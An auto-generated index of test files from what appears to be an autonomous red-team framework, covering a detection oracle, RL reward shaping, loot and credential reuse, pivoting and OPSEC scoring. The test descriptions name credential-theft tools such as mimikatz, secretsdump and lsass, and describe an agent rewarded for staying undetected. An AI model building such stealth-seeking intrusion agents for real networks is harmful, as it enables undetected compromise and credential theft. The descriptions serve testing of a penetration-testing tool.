- `test_summarize_window_filters_old_records` (line 124) `def test_summarize_window_filters_old_records(tmp_path)` - *Window in seconds drops events older than the cutoff.*
- `test_tail_returns_newest_first` (line 163) `def test_tail_returns_newest_first(tmp_path)` - *``tail(n)`` returns the *n* most recent records in reverse order.*
- `test_concurrent_writes_do_not_corrupt` (line 173) `def test_concurrent_writes_do_not_corrupt(tmp_path)` - *Threaded recorders produce decodable lines without truncation.*
- `test_get_recorder_is_singleton` (line 202) `def test_get_recorder_is_singleton(tmp_path)` - *``get_recorder`` returns the same instance for repeated calls.*
- `test_aggregator_handles_empty_iterable` (line 211) `def test_aggregator_handles_empty_iterable()` - *``MetricsAggregator.summarize`` is well-defined on no records.*
- `test_aggregator_skips_malformed_records` (line 220) `def test_aggregator_skips_malformed_records()` - *Non-dict records are silently ignored.*
- `test_p95_uses_nearest_rank` (line 227) `def test_p95_uses_nearest_rank()` - *Internal percentile helper matches the documented rank rule.*
- `test_metric_record_to_dict_roundtrip` (line 234) `def test_metric_record_to_dict_roundtrip()` - *``MetricRecord.to_dict`` produces a JSON-friendly payload.*
- `worker` (line 180) `def worker(tag)`

#### `test_metrics_aware_selector.py`
**Path:** `tests/test_metrics_aware_selector.py`
**File Doc:** *Tests for ``MetricsAwareSelector`` in ``skills/autonomous_daemon.py``.  The decorator must:  * be a transparent pass-through when the wrapped selector returns ``None`` or when there are not enough recorded attempts; * filter the decision when the recorded ``success_rate`` is below the configured threshold and ``count >= min_attempts``; * leave the :class:`FallbackSelector` unwrapped at chain composition time so the cascade always converges; * respect the env-driven master switch through :data:`METRICS_BIAS_ENABLED`; * cache the summary for the configured TTL to avoid re-reading the JSONL log on every step.*

**Classes:**
- `_StubSelector` (line 37) `class _StubSelector(ICommandSelector)` - *Selector double that returns a hard-coded decision or ``None``.*
- `_StubMetrics` (line 54) `class _StubMetrics` - *Stand-in for ``MetricsRecorder`` exposing only ``summarize``.*
- `_BrokenSource` (line 217) `class _BrokenSource`

**Functions:**
- `_decision` (line 71) `def _decision(command)`
- `test_passthrough_when_wrapped_returns_none` (line 75) `def test_passthrough_when_wrapped_returns_none()` - *A ``None`` from the wrapped selector is forwarded verbatim.*
- `test_passthrough_when_insufficient_attempts` (line 87) `def test_passthrough_when_insufficient_attempts()` - *Commands with fewer attempts than ``min_attempts`` are accepted.*
- `test_filters_when_success_rate_below_threshold` (line 105) `def test_filters_when_success_rate_below_threshold()` - *Failing command is filtered out (selector returns ``None``).*
- `test_accepts_when_success_rate_at_threshold` (line 122) `def test_accepts_when_success_rate_at_threshold()` - *Boundary case: ``success_rate == min_success_rate`` is accepted.*
- `test_only_filters_named_command_not_whole_decision_object` (line 141) `def test_only_filters_named_command_not_whole_decision_object()` - *The decorator uses the first token of ``decision.command`` only.*
- `test_summary_is_cached_within_ttl` (line 158) `def test_summary_is_cached_within_ttl()` - *Repeated calls within ``cache_ttl_s`` reuse the cached summary.*
- `test_summary_forwards_window_seconds` (line 188) `def test_summary_forwards_window_seconds()` - *The configured window is passed straight through to ``summarize``.*
- `test_zero_window_is_treated_as_unbounded` (line 201) `def test_zero_window_is_treated_as_unbounded()` - *``window_seconds=0`` translates to ``None`` for the source.*
- `test_decorator_degrades_when_metrics_source_unavailable` (line 214) `def test_decorator_degrades_when_metrics_source_unavailable()` - *A ``None`` metrics source disables filtering, never raises.*
- `test_wrap_chain_leaves_fallback_unwrapped` (line 230) `def test_wrap_chain_leaves_fallback_unwrapped()` - *``_wrap_chain_with_metrics_bias`` must not decorate the fallback.*
- `test_wrap_chain_master_switch_off` (line 241) `def test_wrap_chain_master_switch_off()` - *When ``enabled`` is False the list is returned unchanged.*
- `test_wrap_chain_is_idempotent` (line 253) `def test_wrap_chain_is_idempotent()` - *Re-wrapping an already-wrapped chain does not stack decorators.*
- `test_filtering_emits_skip_event` (line 265) `def test_filtering_emits_skip_event(tmp_path, monkeypatch)` - *``METRICS_BIAS_SKIP`` events are appended on filter.*
- `test_chain_falls_through_to_fallback_when_all_filtered` (line 298) `def test_chain_falls_through_to_fallback_when_all_filtered()` - *When every wrapped selector filters its decision the fallback wins.*
- `fake_clock` (line 169) `def fake_clock()`

**Methods:**
- `__init__` (line 40) `def __init__(self, decision)`
- `select` (line 44) `def select(self, target, phase, context)`
- `__init__` (line 57) `def __init__(self, by_command)`
- `summarize` (line 62) `def summarize(self, window_seconds)`
- `summarize` (line 218) `def summarize(self, window_seconds)`

#### `test_migrate_lazyown_generator.py`
**Path:** `tests/test_migrate_lazyown_generator.py`
**File Doc:** *Regression guard for the ``cli/commands`` migration generator.  ``scripts/migrate_lazyown.py`` emits phase-scoped ``*CommandSet`` modules. A prior version wrote the literal ``__all__ = [f"{phase.title()}CommandSet"]`` into every generated module -- an f-string that landed verbatim in the output where ``phase`` is undefined at module scope. Each generated module therefore raised ``NameError`` on import, which aborted :func:`cli.registry.iter_command_sets` and silently dropped every command set discovered after the offender.  These tests pin the generator contract so that regression cannot return: the emitted ``__all__`` must be a static list naming exactly the generated class, and the whole module must parse and expose that class name.*

**Functions:**
- `_module_all` (line 27) `def _module_all(source)` - *Extract the ``__all__`` literal from ``source`` via AST.

Args:
    source: Generated module source text.

Returns:
    The list of string names assigned to ``__all__``.

Raises:
    AssertionError: When ``__all__`` is missing or is not a list of string
        constants (for example an f-string that would fail at import time).*
- `test_generated_module_parses` (line 57) `def test_generated_module_parses()`
- `test_all_is_static_and_matches_class_name` (line 62) `def test_all_is_static_and_matches_class_name()`
- `test_compound_phase_title_casing` (line 68) `def test_compound_phase_title_casing()`
- `test_no_unevaluated_fstring_all_literal` (line 74) `def test_no_unevaluated_fstring_all_literal()`
- `test_method_bodies_are_embedded_in_order` (line 81) `def test_method_bodies_are_embedded_in_order()`

#### `test_module_registry.py`
**Path:** `tests/test_module_registry.py`
**File Doc:** *Tests for modules.module_registry — ModuleInfo, ModuleRegistry, search, summary.  Covers the data class, singleton pattern, search by name/type/category, and summary counts. The registry scans real filesystem paths so these tests also validate that discovery does not crash on the actual repo.*

**Classes:**
- `TestClassify` (line 20) `class TestClassify`
- `TestModuleInfo` (line 36) `class TestModuleInfo`
- `TestModuleRegistry` (line 75) `class TestModuleRegistry`
- `TestFormatFunctions` (line 185) `class TestFormatFunctions`

**Methods:**
- `test_known_categories` (line 21) `def test_known_categories(self)` - *Each MODULE_TYPES prefix maps to the expected type.*
- `test_unknown_category_defaults_to_auxiliary` (line 27) `def test_unknown_category_defaults_to_auxiliary(self)`
- `test_empty_string` (line 31) `def test_empty_string(self)`
- `test_minimal_construction` (line 37) `def test_minimal_construction(self)`
- `test_full_construction` (line 44) `def test_full_construction(self)`
- `test_to_dict` (line 62) `def test_to_dict(self)`
- `test_repr` (line 70) `def test_repr(self)`
- `test_singleton` (line 76) `def test_singleton(self)` - *get_instance returns the same object across calls.*
- `test_singleton_with_base_dir` (line 82) `def test_singleton_with_base_dir(self)` - *Providing base_dir on first call initialises the path.*
- `test_initial_state_not_scanned` (line 87) `def test_initial_state_not_scanned(self)`
- `test_scan_returns_list` (line 92) `def test_scan_returns_list(self)` - *scan() returns a list and sets _scanned to True.*
- `test_scan_is_idempotent` (line 99) `def test_scan_is_idempotent(self)` - *Second scan() returns the same (cached) list.*
- `test_rescan_forces_refresh` (line 106) `def test_rescan_forces_refresh(self)` - *rescan() clears the cache and rescans.*
- `test_search_returns_list` (line 115) `def test_search_returns_list(self)`
- `test_search_by_module_type` (line 121) `def test_search_by_module_type(self)`
- `test_search_by_category` (line 127) `def test_search_by_category(self)`
- `test_get_known_module` (line 133) `def test_get_known_module(self)` - *get() returns a ModuleInfo for a known name.*
- `test_get_unknown_returns_none` (line 145) `def test_get_unknown_returns_none(self)`
- `test_summary_returns_counts` (line 149) `def test_summary_returns_counts(self)`
- `test_by_type_shorthand` (line 159) `def test_by_type_shorthand(self)`
- `test_search_enabled_only_filters_disabled` (line 164) `def test_search_enabled_only_filters_disabled(self)` - *search with enabled_only=True skips disabled modules.*
- `test_format_module_table_empty` (line 186) `def test_format_module_table_empty(self)`
- `test_format_module_table_with_data` (line 190) `def test_format_module_table_with_data(self)`
- `test_format_module_detail` (line 201) `def test_format_module_detail(self)`
- `test_format_module_detail_minimal` (line 217) `def test_format_module_detail_minimal(self)`

#### `test_moe_rl_swan.py`
**Path:** `tests/test_moe_rl_swan.py`
**File Doc:** *tests/test_moe_rl_swan.py ========================= Test suite for the MoE + RL + SWAN + Detection Oracle architecture.  Covers: - modules/detection_oracle.py  (DetectionOracle, DetectionAssessment) - modules/moe_router.py        (MoERouter, ExpertPerformanceStore, SoftmaxSelector) - modules/rl_trainer.py        (RLTrainer, QValueStore, EpsilonTracker) - skills/swan_agent.py         (SwanResult, OutcomeEvaluator, mcp_swan_route) - skills/autonomous_daemon.py  (SWANSelector, cascade order, RL feedback) - skills/lazyown_policy.py     (detection-aware reward shaping) - modules/world_model.py       (graph / pivot candidates)  All tests are self-contained: they do NOT call real LLM APIs, do NOT require GROQ_API_KEY, and use tmp_path fixtures for any on-disk persistence.*

**Classes:**
- `TestDetectionOracle` (line 37) `class TestDetectionOracle`
- `TestMoERouter` (line 121) `class TestMoERouter`
- `TestRLTrainer` (line 223) `class TestRLTrainer`
- `TestSwanAgent` (line 340) `class TestSwanAgent`
- `TestAutonomousDaemonSWAN` (line 493) `class TestAutonomousDaemonSWAN`
- `TestPolicyDetectionAware` (line 571) `class TestPolicyDetectionAware`
- `TestWorldModelGraph` (line 616) `class TestWorldModelGraph`
- `TestMCPRegistration` (line 675) `class TestMCPRegistration`

**Functions:**
- `_ep` (line 199) `def _ep(eid, w)`
- `_make_trainer` (line 285) `def _make_trainer(suffix)`
- `_result` (line 421) `def _result(task_type)`

**Methods:**
- `test_low_risk_dns_query` (line 38) `def test_low_risk_dns_query(self)` - *A plain dig query should have LOW detection probability.*
- `test_high_risk_mimikatz` (line 46) `def test_high_risk_mimikatz(self)` - *mimikatz credential dump must be flagged HIGH risk.*
- `test_critical_risk_combined_credential_tools` (line 54) `def test_critical_risk_combined_credential_tools(self)` - *secretsdump combined with lsass keyword should reach HIGH/CRITICAL.*
- `test_assessment_has_required_fields` (line 62) `def test_assessment_has_required_fields(self)` - *DetectionAssessment dataclass must contain all documented fields.*
- `test_is_high_risk_property_consistent_with_probability` (line 75) `def test_is_high_risk_property_consistent_with_probability(self)` - *is_high_risk must be True iff probability >= 0.70.*
- `test_singleton_returns_same_instance` (line 83) `def test_singleton_returns_same_instance(self)` - *get_oracle() must always return the same object (singleton).*
- `test_nmap_is_not_high_risk` (line 91) `def test_nmap_is_not_high_risk(self)` - *Plain nmap should not be considered high risk.*
- `test_evil_winrm_is_high_risk` (line 99) `def test_evil_winrm_is_high_risk(self)` - *evil-winrm lateral movement must be flagged HIGH risk.*
- `test_is_critical_risk_property` (line 107) `def test_is_critical_risk_property(self)` - *is_critical_risk must be True iff probability >= 0.90.*
- `test_singleton_returns_same_instance` (line 122) `def test_singleton_returns_same_instance(self)` - *get_router() must return the same MoERouter instance.*
- `test_route_returns_expert_or_raises_gracefully` (line 130) `def test_route_returns_expert_or_raises_gracefully(self)` - *route() must return a valid ExpertProfile or raise RuntimeError (no keys).*
- `test_ensemble_returns_available_candidates` (line 143) `def test_ensemble_returns_available_candidates(self)` - *ensemble() must return a list (may be fewer than N when few experts available).*
- `test_record_outcome_updates_ema` (line 154) `def test_record_outcome_updates_ema(self, tmp_path)` - *record() must create/update EMA for the given (expert, task_type).*
- `test_performance_bonus_positive_after_success` (line 164) `def test_performance_bonus_positive_after_success(self, tmp_path)` - *After a high reward, performance_bonus should be non-negative.*
- `test_performance_bonus_penalises_high_detection` (line 173) `def test_performance_bonus_penalises_high_detection(self, tmp_path)` - *Same base reward but high detection should yield lower EMA reward.*
- `test_status_report_contains_experts` (line 184) `def test_status_report_contains_experts(self)` - *status_report() must return a dict with 'experts' key.*
- `test_softmax_deterministic_picks_highest_weight` (line 193) `def test_softmax_deterministic_picks_highest_weight(self)` - *In deterministic mode, SoftmaxSelector.select() returns the argmax expert.*
- `test_encode_state_format` (line 224) `def test_encode_state_format(self)` - *encode_state must return 'task:phase:bucket' string.*
- `test_select_action_returns_valid_candidate` (line 236) `def test_select_action_returns_valid_candidate(self)` - *select_action must return one of the provided candidates.*
- `test_update_changes_qvalue` (line 246) `def test_update_changes_qvalue(self, tmp_path)` - *After update(), Q(state, action) must differ from the initial value.*
- `test_epsilon_decays_after_update` (line 269) `def test_epsilon_decays_after_update(self, tmp_path)` - *epsilon must be strictly smaller after calling update().*
- `test_detection_penalty_lowers_effective_reward` (line 281) `def test_detection_penalty_lowers_effective_reward(self, tmp_path)` - *Same raw reward but high detection_prob must yield a lower Q-update.*
- `test_optimistic_init_for_unseen_actions` (line 310) `def test_optimistic_init_for_unseen_actions(self, tmp_path)` - *An unseen (state, action) pair must return optimistic_init value.*
- `test_save_and_reload_persistence` (line 318) `def test_save_and_reload_persistence(self, tmp_path)` - *Q-values saved to disk must be recoverable after re-instantiation.*
- `test_swan_result_dataclass_fields` (line 341) `def test_swan_result_dataclass_fields(self)` - *SwanResult must have all documented fields.*
- `test_swan_result_failed_is_not_success` (line 364) `def test_swan_result_failed_is_not_success(self)` - *is_success must be False when status != 'completed'.*
- `test_outcome_evaluator_success_reward` (line 380) `def test_outcome_evaluator_success_reward(self)` - *Successful non-detected command should yield positive reward.*
- `test_outcome_evaluator_failed_gives_negative_reward` (line 399) `def test_outcome_evaluator_failed_gives_negative_reward(self)` - *A failed execution must yield negative reward.*
- `test_outcome_evaluator_high_value_category_bonus` (line 417) `def test_outcome_evaluator_high_value_category_bonus(self)` - *Successful privesc task should have a higher reward than basic recon.*
- `test_mcp_swan_route_returns_valid_json` (line 438) `def test_mcp_swan_route_returns_valid_json(self)` - *mcp_swan_route() must return valid JSON with routing + task_type.*
- `test_mcp_swan_status_returns_valid_json` (line 452) `def test_mcp_swan_status_returns_valid_json(self)` - *mcp_swan_status() must return valid JSON with experts key.*
- `test_ensemble_result_dataclass_fields` (line 460) `def test_ensemble_result_dataclass_fields(self)` - *EnsembleResult must have all documented fields.*
- `test_swan_selector_disabled_by_default` (line 494) `def test_swan_selector_disabled_by_default(self)` - *SWANSelector.select() must return None when AUTO_USE_SWAN is not '1'.*
- `test_swan_selector_phase_mapping_coverage` (line 503) `def test_swan_selector_phase_mapping_coverage(self)` - *Every phase in _PHASE_TO_TASK must map to a valid SWAN task_type.*
- `test_cascade_strategy_contains_swan_selector` (line 511) `def test_cascade_strategy_contains_swan_selector(self)` - *The default StrategyEngine cascade must include a SWANSelector.*
- `test_cascade_strategy_order` (line 525) `def test_cascade_strategy_order(self)` - *SWANSelector must appear before FallbackSelector in the cascade.*
- `test_fallback_selector_never_returns_none` (line 539) `def test_fallback_selector_never_returns_none(self)` - *FallbackSelector must always return a CommandDecision, never None.*
- `test_command_decision_source_label` (line 548) `def test_command_decision_source_label(self)` - *FallbackSelector decisions must carry source='fallback'.*
- `test_llm_selector_disabled_without_env` (line 556) `def test_llm_selector_disabled_without_env(self)` - *LLMSelector must return None when AUTO_USE_LLM is not set.*
- `test_detection_above_threshold_zeroes_reward` (line 572) `def test_detection_above_threshold_zeroes_reward(self)` - *calculate_with_detection: reward must be 0 when detect >= 0.70.*
- `test_low_detection_preserves_positive_reward` (line 587) `def test_low_detection_preserves_positive_reward(self)` - *Low-detection success should keep a positive reward value.*
- `test_failed_outcome_gives_negative_reward` (line 602) `def test_failed_outcome_gives_negative_reward(self)` - *Failed recon action must produce a negative reward regardless of detection.*
- `test_add_relation_and_pivot_candidates` (line 617) `def test_add_relation_and_pivot_candidates(self, tmp_path)` - *After adding relations, pivot_candidates must return hosts by centrality.*
- `test_graph_snapshot_is_serialisable` (line 634) `def test_graph_snapshot_is_serialisable(self, tmp_path)` - *graph_snapshot() must return a JSON-serialisable dict.*
- `test_auto_relation_on_service_add` (line 645) `def test_auto_relation_on_service_add(self, tmp_path)` - *add_service should auto-create a graph node for the host (prefixed).*
- `test_pivot_candidates_sorted_by_centrality` (line 656) `def test_pivot_candidates_sorted_by_centrality(self, tmp_path)` - *pivot_candidates must return results sorted descending by centrality.*
- `test_swan_tools_registered_in_mcp` (line 676) `def test_swan_tools_registered_in_mcp(self)` - *The four SWAN tools must appear in lazyown_mcp list_tools names.*
- `test_hive_tools_registered_in_mcp` (line 685) `def test_hive_tools_registered_in_mcp(self)` - *Core hive tools must appear in lazyown_mcp.py.*

#### `test_moe_router_check_regression.py`
**Path:** `tests/test_moe_router_check_regression.py`
**File Doc:** *Regression coverage for ``modules.moe_router.ExpertAvailabilityChecker._check``.  A local ``import pathlib, os`` inside the toposwarm branch used to shadow the module-level ``os`` import for the whole function. CPython's function-scope rule made every ``os.environ.get`` higher up in the function raise :class:`UnboundLocalError`, which the surrounding ``except Exception`` swallowed silently — so the MoE router fell back to the static path on every call and the experts list collapsed to a single entry.  These tests pin the corrected behaviour: the groq and ollama branches read environment variables without touching the toposwarm import path, and the toposwarm branch resolves a directory through the module-level ``os`` and ``Path`` symbols.*

**Functions:**
- `test_check_groq_returns_false_without_api_key` (line 27) `def test_check_groq_returns_false_without_api_key(monkeypatch)` - *The groq branch must not raise ``UnboundLocalError`` when key is empty.*
- `test_check_groq_returns_true_with_explicit_key` (line 47) `def test_check_groq_returns_true_with_explicit_key()` - *An explicit ``api_key`` argument shortcircuits without reading env.*
- `test_check_groq_reads_env_when_arg_empty` (line 65) `def test_check_groq_reads_env_when_arg_empty(monkeypatch)` - *When no api_key is supplied the env var is consulted.*
- `test_check_toposwarm_uses_module_level_os_and_path` (line 85) `def test_check_toposwarm_uses_module_level_os_and_path(tmp_path, monkeypatch)` - *The toposwarm branch must resolve ``TOPOSWARM_DIR`` through stdlib.*
- `test_check_toposwarm_returns_false_when_dir_absent` (line 110) `def test_check_toposwarm_returns_false_when_dir_absent(tmp_path, monkeypatch)` - *An absent orchestrator file means the backend is unavailable.*
- `test_check_unknown_backend_is_unavailable` (line 131) `def test_check_unknown_backend_is_unavailable()` - *Any backend not enumerated is treated as unavailable.*

#### `test_mutation_verification.py`
**Path:** `tests/test_mutation_verification.py`
**File Doc:** *Mutation verification contracts.  Each test encodes a mutation that the suite must catch. If the guard under test is removed, the matching test fails. The tests assert, so pytest records a real pass or fail instead of warning about a returned value.*

**Functions:**
- `test_sql_injection_blocked` (line 19) `def test_sql_injection_blocked()` - *A table name with SQL metacharacters is rejected by the allowlist.*
- `test_hmac_compare_digest_used` (line 27) `def test_hmac_compare_digest_used()` - *check_auth uses hmac.compare_digest and no plaintext comparison.*
- `test_shell_false_in_safe_runner` (line 41) `def test_shell_false_in_safe_runner()` - *core/safe_subprocess.py runs every command with shell=False.*
- `test_pickle_removed` (line 56) `def test_pickle_removed()` - *utils.py does not import pickle.*
- `test_no_hardcoded_secrets` (line 63) `def test_no_hardcoded_secrets()` - *utils.py does not embed the legacy bootstrap passwords.*

#### `test_nethelpers_command_set.py`
**Path:** `tests/test_nethelpers_command_set.py`
**File Doc:** *Network helpers command set extraction tests.  SDD contract for the network helpers cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/nethelpers.py``.  Stage A (pending): the new ``NetworkHelpersCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.*

**Classes:**
- `NethelpersSuiteConfig` (line 38) `class NethelpersSuiteConfig` - *Centralised constants for the nethelpers extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 32) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 61) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 73) `def test_target_is_active_command_set()`
- `test_target_exposes_full_nethelpers_cluster` (line 82) `def test_target_exposes_full_nethelpers_cluster()`
- `test_target_phase_metadata` (line 89) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 95) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 101) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 108) `def test_no_command_collisions_with_source()`

#### `test_no_shell_execution.py`
**Path:** `tests/test_no_shell_execution.py`
**File Doc:** *Contract tests: no os.system and no manual sys.stdout reassignment.  The framework treats ``os.system`` as forbidden in production code and requires stdout capture through ``contextlib.redirect_stdout``. These tests parse the production tree with ``ast``, so a string that merely mentions ``os.system`` (a target payload or a docstring) does not count. Only a real call node or a real assignment node fails the contract.*

**Classes:**
- `ScanConfig` (line 20) `class ScanConfig` - *Configuration for the execution contract scan.

Attributes:
    roots: Repo-relative directories whose Python files are production code.
    root_files: Repo-relative Python files at the repository root.
    skip_dirs: Directory names that never contain hand-written production code.
    skip_files: Repo-relative generated files that are not audited.*

**Functions:**
- `_parse` (line 64) `def _parse(path)` - *Parse a Python file, returning ``None`` when it does not parse.*
- `find_os_system_calls` (line 72) `def find_os_system_calls(config)` - *Return ``file:line`` for every real ``os.system(...)`` call.

Args:
    config: Optional scan configuration.
Returns:
    A sorted list of ``relative_path:lineno`` strings.*
- `find_stdout_assignments` (line 96) `def find_stdout_assignments(config)` - *Return ``file:line`` for every manual ``sys.stdout = ...`` assignment.

Args:
    config: Optional scan configuration.
Returns:
    A sorted list of ``relative_path:lineno`` strings.*
- `test_no_os_system_in_production` (line 124) `def test_no_os_system_in_production()` - *Production code must not call ``os.system``.*
- `test_no_manual_stdout_reassignment` (line 130) `def test_no_manual_stdout_reassignment()` - *Production code must capture stdout with contextlib, not manual assignment.*
- `test_scanner_detects_a_synthetic_os_system` (line 136) `def test_scanner_detects_a_synthetic_os_system(tmp_path)` - *The scanner reports a real call and ignores a string that mentions it.*

**Methods:**
- `iter_files` (line 44) `def iter_files(self)` - *Yield the production Python files covered by the contract.*

#### `test_nuclei_parser.py`
**Path:** `tests/test_nuclei_parser.py`
**File Doc:** *Tests for modules/integrations/nuclei_parser.py*

**Classes:**
- `TestNucleiFinding` (line 13) `class TestNucleiFinding`
- `TestNucleiParserText` (line 58) `class TestNucleiParserText`
- `TestNucleiParserJson` (line 73) `class TestNucleiParserJson`
- `TestSeverityMap` (line 120) `class TestSeverityMap`
- `TestMitreTactics` (line 128) `class TestMitreTactics`
- `TestRecommendations` (line 134) `class TestRecommendations`

**Methods:**
- `test_fields` (line 14) `def test_fields(self)`
- `test_exploit_probability_map` (line 28) `def test_exploit_probability_map(self)`
- `test_mitre_tactic` (line 46) `def test_mitre_tactic(self)`
- `test_parse_empty` (line 59) `def test_parse_empty(self)`
- `test_parse_nuclei_line` (line 64) `def test_parse_nuclei_line(self)`
- `test_parse_empty` (line 74) `def test_parse_empty(self)`
- `test_parse_json_single_finding` (line 78) `def test_parse_json_single_finding(self)`
- `test_parse_json_multiple_findings` (line 90) `def test_parse_json_multiple_findings(self)`
- `test_parse_json_array` (line 99) `def test_parse_json_array(self)`
- `test_parse_with_cve_classification` (line 108) `def test_parse_with_cve_classification(self)`
- `test_critical_is_10` (line 121) `def test_critical_is_10(self)`
- `test_info_is_1` (line 124) `def test_info_is_1(self)`
- `test_all_tactics_have_ta_prefix` (line 129) `def test_all_tactics_have_ta_prefix(self)`
- `test_generate_for_critical` (line 135) `def test_generate_for_critical(self)`
- `test_skip_low_severity` (line 151) `def test_skip_low_severity(self)`

#### `test_ops_loot_phase.py`
**Path:** `tests/test_ops_loot_phase.py`
**File Doc:** *Tests for unified loot, cred-graph view, and quantitative phase progress.  Covers the loot model and operator helpers added to ``cli/ops_commands.py`` (``gather_loot`` / ``loot_show`` / ``loot_search`` / ``loot_reuse`` / ``loot_graph`` / ``loot_mark`` / ``resolve_cred_value`` / ``phase_progress``) and the symmetric ``WorldModel.link_credential_to_failure`` cred-graph edge.  All tests run against ``tmp_path`` session fixtures — no mocking of real ``sessions/`` artefacts, per the project's integration-first test policy.*

**Functions:**
- `_seed_loot` (line 34) `def _seed_loot(sessions_dir)` - *Write a credentials file and a hash file with a comment and blank line.*
- `_write_world` (line 46) `def _write_world(sessions_dir, world)`
- `test_gather_loot_parses_kinds_and_skips_noise` (line 53) `def test_gather_loot_parses_kinds_and_skips_noise(tmp_path)`
- `test_loot_entry_value` (line 65) `def test_loot_entry_value()`
- `test_resolve_cred_value_precedence` (line 70) `def test_resolve_cred_value_precedence()`
- `test_loot_show_renders_table` (line 85) `def test_loot_show_renders_table(tmp_path, capsys)`
- `test_loot_show_empty` (line 94) `def test_loot_show_empty(tmp_path, capsys)`
- `test_loot_search_hits_and_provenance` (line 101) `def test_loot_search_hits_and_provenance(tmp_path, capsys)`
- `test_loot_search_no_match` (line 115) `def test_loot_search_no_match(tmp_path, capsys)`
- `test_loot_search_requires_query` (line 123) `def test_loot_search_requires_query(tmp_path, capsys)`
- `test_loot_reuse_no_target` (line 133) `def test_loot_reuse_no_target(tmp_path, capsys)`
- `test_loot_reuse_no_loot` (line 141) `def test_loot_reuse_no_loot(tmp_path, capsys)`
- `test_loot_reuse_excludes_rejected_and_flags_confirmed` (line 148) `def test_loot_reuse_excludes_rejected_and_flags_confirmed(tmp_path, capsys)`
- `test_loot_graph_renders_edges` (line 174) `def test_loot_graph_renders_edges(tmp_path, capsys)`
- `test_loot_graph_empty` (line 196) `def test_loot_graph_empty(tmp_path, capsys)`
- `test_loot_mark_writes_rejected_edge` (line 206) `def test_loot_mark_writes_rejected_edge(tmp_path)`
- `test_loot_mark_rejects_bad_outcome` (line 222) `def test_loot_mark_rejects_bad_outcome(tmp_path, capsys)`
- `test_loot_mark_unknown_credential` (line 230) `def test_loot_mark_unknown_credential(tmp_path, capsys)`
- `test_phase_progress_ranks` (line 241) `def test_phase_progress_ranks(tmp_path)`
- `test_phase_progress_completed_override` (line 262) `def test_phase_progress_completed_override(tmp_path)`
- `test_phase_progress_os_owned_report_and_loot` (line 283) `def test_phase_progress_os_owned_report_and_loot(tmp_path)`
- `test_link_credential_to_failure_edge_and_roundtrip` (line 310) `def test_link_credential_to_failure_edge_and_roundtrip(tmp_path)`

#### `test_opsec_scorer.py`
**Path:** `tests/test_opsec_scorer.py`
**File Doc:** *Tests for modules/opsec_scorer.py*

**Classes:**
- `TestOpsecScorer` (line 13) `class TestOpsecScorer`

**Methods:**
- `test_score_high_noise_command` (line 14) `def test_score_high_noise_command(self)`
- `test_score_low_noise_command` (line 21) `def test_score_low_noise_command(self)`
- `test_score_unknown_command` (line 27) `def test_score_unknown_command(self)`
- `test_score_with_evasion` (line 33) `def test_score_with_evasion(self)`
- `test_score_batch` (line 39) `def test_score_batch(self)`
- `test_score_to_dict` (line 45) `def test_score_to_dict(self)`
- `test_confidence_is_float` (line 61) `def test_confidence_is_float(self)`
- `test_mitigations_returned` (line 67) `def test_mitigations_returned(self)`
- `test_convenience_function` (line 72) `def test_convenience_function(self)`
- `test_all_known_commands_have_mitigations` (line 77) `def test_all_known_commands_have_mitigations(self)`
- `test_suggest_mitigations` (line 85) `def test_suggest_mitigations(self)`
- `test_target_sensitivity_dc` (line 90) `def test_target_sensitivity_dc(self)`

#### `test_opsec_scorer_consolidated.py`
**Path:** `tests/test_opsec_scorer_consolidated.py`
**File Doc:** *Consolidated OPSEC scorer contract tests (SDD/TDD/BDD).  Covers the single-contract ``modules.opsec_scorer`` after merging the former ``opsec_scorer_v2`` module. Verifies:  - The shared noise-to-risk mapping is the single source of truth for both :class:`OpsecScorer` (advisory, string label) and :class:`OpsecScorerV2` (gated, enum label). - V2 gating behaviour (allow / warn / confirm / block) and trend tracking. - Backward-compatible V1 advisory scoring.*

**Classes:**
- `TestSharedRiskMapping` (line 29) `class TestSharedRiskMapping`
- `TestRiskLevelAndGate` (line 59) `class TestRiskLevelAndGate`
- `TestOpsecScorerV2` (line 78) `class TestOpsecScorerV2`
- `TestBackwardCompatibility` (line 140) `class TestBackwardCompatibility`

**Methods:**
- `test_risk_buckets_respect_thresholds` (line 30) `def test_risk_buckets_respect_thresholds(self)`
- `test_risk_label_matches_bucket` (line 40) `def test_risk_label_matches_bucket(self)`
- `test_risk_level_matches_bucket` (line 46) `def test_risk_level_matches_bucket(self)`
- `test_string_and_enum_labels_are_consistent` (line 52) `def test_string_and_enum_labels_are_consistent(self)`
- `test_enum_values` (line 60) `def test_enum_values(self)`
- `test_gate_mapping` (line 70) `def test_gate_mapping(self)`
- `test_assess_returns_gated_score` (line 79) `def test_assess_returns_gated_score(self)`
- `test_mimikatz_is_high_critical` (line 87) `def test_mimikatz_is_high_critical(self)`
- `test_ping_is_allow` (line 99) `def test_ping_is_allow(self)`
- `test_should_allow_returns_tuple` (line 105) `def test_should_allow_returns_tuple(self)`
- `test_trend_insufficient_data` (line 111) `def test_trend_insufficient_data(self)`
- `test_trend_after_scoring` (line 115) `def test_trend_after_scoring(self)`
- `test_mitigations_generated` (line 123) `def test_mitigations_generated(self)`
- `test_alternatives_for_mimikatz` (line 128) `def test_alternatives_for_mimikatz(self)`
- `test_unknown_command_uses_default_profile` (line 133) `def test_unknown_command_uses_default_profile(self)`
- `test_v1_score_returns_string_risk` (line 141) `def test_v1_score_returns_string_risk(self)`
- `test_opsec_context_defaults` (line 147) `def test_opsec_context_defaults(self)`
- `test_risk_profiles_shared_table_intact` (line 154) `def test_risk_profiles_shared_table_intact(self)`

#### `test_packaging.py`
**Path:** `tests/test_packaging.py`
**File Doc:** *Packaging and project-foundation tests.  Verify the project's foundation:  - ``Config`` class deduplicated in ``utils.py``. - ``pyproject.toml`` / ``setup.py`` packaging metadata correct and complete. - ``requirements-dev.txt`` present with expected tooling. - pre-commit config valid. - GitHub Actions workflows present and valid. - ``.gitignore`` protects sensitive material.*

**Classes:**
